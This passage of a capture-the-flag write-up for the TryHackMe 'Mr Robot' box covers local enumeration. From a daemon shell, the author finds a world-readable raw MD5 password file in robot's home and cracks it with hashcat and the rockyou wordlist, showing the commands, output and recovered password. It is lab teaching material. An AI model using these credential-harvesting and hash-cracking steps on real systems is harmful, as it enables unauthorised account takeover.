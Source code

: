 ### LOCAL ENUMERATON

Let's look around. We can use the _find_ command. We see that the 2nd key exits in home directory of the user __robot__. But we see that it can only be read by the owner robot. So, we need to pivot to this user. We also find the backup of robot's raw md5 password. We can crack this password using __hashcat__.

```bash
daemon@linux:/$ find /home/ -type f -iname "*.txt"
/home/robot/key-2-of-3.txt
daemon@linux:/$ cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied
daemon@linux:/$ cd /home/robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can use following command to find the mode for cracking raw md5. We can then supply famous rockyou list to crack the md5sum. We find that the credentials for the user robot are as **robot:abcdefghijklmnopqrstuvwxyz**.

```bash
~/Desktop/Boxes/Try_Hack_Me/Mr_Robot_CTF$ hashcat --example-hashes                                                                                                               
hashcat (v6.1.1) starting...

MODE: 0
TYPE: MD5
HASH: 8743b52063cd84097a65d1633f5c74f5
PASS: hashcat 
......     
```

**OUTPUT**
```bash
$ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt  

hashcat (v6.1.1) starting...
.......

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt 
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Thu Nov 12 21:41:12 2020 (1 sec)
Time.Estimated...: Thu Nov 12 21:41:13 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   386.7 kH/s (0.64ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
```